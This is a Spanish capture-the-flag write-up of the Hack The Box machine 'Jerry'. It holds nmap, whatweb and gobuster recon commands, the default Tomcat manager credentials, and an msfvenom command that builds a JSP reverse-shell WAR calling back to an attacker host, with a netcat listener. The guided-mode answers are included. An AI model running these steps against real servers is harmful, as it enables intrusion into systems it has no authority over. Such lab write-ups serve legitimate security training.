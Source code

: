 ```yaml
---
title: Writeup jerry - Hack The Box - Resolución y Análisis
published: true
tags:
  - hackthebox
  - writeup
  - jerry
  - ciberseguridad
  - pentesting
description: Writeup y resolución de la máquina  jerry en Hack The Box.
keywords:
  - writeup  jerry
  - hack the box  jerry
  - resolución máquina  jerry
  - jerry hack the box
  - htb  jerry
---
```

--------
### 🔗 Accesos rápidos

- 📄 **Writeup online**: [Link](https://publish.obsidian.md/bunzopy/HTB/Facil/Windows/Jerry)
- 📺 **Resolución en vivo (completa)**: [Link]([Link](https://www.youtube.com/watch?v=NfEMX7-BFTo))
- 🧠 **Explicación resumida**: 

-------

#easy #windows #ping #nmap #tomcat #arbitraryfileupload #whatweb #msvenom #reverseshell #tratamientotty #rwrapncnlvp443

---------
# Guided Mode

1)¿Qué puerto TCP está abierto en el host remoto?
	8080

2)¿Qué servidor web se está ejecutando en el host remoto? Buscando dos palabras.
	apache tomcat

3)¿Qué ruta relativa en el servidor web lleva al Web Application Manager?
	/manager/html

4)¿Cuál es la combinación válida de nombre de usuario y contraseña para autenticarse en el gestor de aplicaciones web Tomcat? Dar la respuesta en el formato de nombre de usuario:contraseña
	tomcat:s3cret

5)¿Qué tipo de archivo puede cargarse y desplegarse en el servidor utilizando el Administrador de Aplicaciones Web Tomcat?
	war

-----
# [[Reconocimiento de OS(Sistema operativo) y puertos abiertos con NMAP]]

```shell
ping -c 1 10.10.10.95
nmap -p- --open --min-rate 5000 -vvv -sS -n -Pn 10.10.10.95 -oG allPorts
nmap -sCV -p8080 10.10.10.95 -oN target
```

![[Jerry1.png]]
![[Jerry2.png]]
*TTL:* Maquina windows
*Puertos:*
	``8080 `` HTTP 

--------
# [[Whatweb-wappalyzer]]

```shell
whatweb http://10.10.10.95:8080/
```
![[Jerry3.png]]

![[Jerry12.png]]

Nos informa que esta corriendo un *Tomcat Version 7.0.88*

-------
# [[Gobuster]]

```shell
gobuster dir -u http://10.10.10.95:8080 -w /usr/share/SecLists/Discovery/Web-Content/directory-list-2.3-small.txt -t 64 --add-slash
```

![[Jerry13.png]]

Nos indica que esta el directorio */manager/html*

---------
# [[Arbitrary file upload]] en tomcat

Entramos a la pagina principal y vemos que es un tomcat
![[Jerry5.png]]
Ponemos un usuario y contraseña para probar
![[Jerry6.png]]
Y en la pagina de error, nos muestra un usuario y contraseña que al probarlos, vemos que podemos ingresar al panel de tomcat
![[Jerry4.png]]
tomcat:s3cret

![[Jerry11.png]]
Vemos que podemos subir archivos .war. Asi que vamos a mandarnos una [[Reverse shell]]

-------
# [[Reverse shell]]

Con [[msfvenom]] creamos el archivo .war

```
msfvenom -p java/jsp_shell_reverse_tcp LHOST=10.10.16.11 LPORT=443 -f war -o shell.war
```

![[Jerry8.png]]
Creamos el archivo shell.war que lo vamos a subir a la pagina 

Ahora mientras estamos en escucha con [[rlwrap -cAr nc -lvnp 443]] vamos a ingresar a la pagina http://10.10.10.95:8080/shell/ para ejecutar el archivo shell.war que subimos anteriormente
Y listo ya estamos adentro de la maquina y podemos catear las flags
![[Jerry9.png]]

![[Jerry10.png]]

---------
# Notas

Tomcat es un servidor de aplicaciones desarrollado por Apache que permite ejecutar aplicaciones web escritas en Java. Funciona como contenedor de servlets y JSP, siguiendo la especificación Java EE. Escucha comúnmente en el puerto 8080. Es usado tanto en entornos de desarrollo como en producción.

----
# Creditos

[Writeup de territoriohacker](https://territoriohacker.com/htb-jerry/)